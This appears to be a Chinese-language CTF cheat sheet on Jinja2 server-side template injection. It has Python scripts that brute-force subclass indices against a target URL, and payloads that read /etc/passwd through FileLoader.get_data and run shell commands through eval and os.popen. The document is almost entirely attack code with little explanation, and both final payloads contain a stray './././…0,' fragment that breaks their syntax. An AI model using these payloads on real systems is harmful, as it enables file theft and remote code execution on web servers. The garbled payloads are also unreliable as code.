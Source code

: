 ## 文件读取

### 1._frozen_importlib_external.FileLoader

文件读取类名：_frozen_importlib_external.FileLoader

查找子类脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib_external.FileLoader' in str(response.content):
                print(i)
    except:
        pass

```

找到_frozen_importlib_external.FileLoader类名的位置

```php
{{"".__class__.__base__.__subclasses__()[79]["get_data"](./././././././././././0,"/etc/passwd")}}

```

### 2.eval

查找eval脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'eval' in str(response.content):
                print(i)
    except:
        pass
```

```php
{{"".__class__.__base__.__subclasses__()[473].__init__.__globals__['__builtins__']['eval'](./././././././././././'__import__("os").popen("cat /flag").read()')}}
```
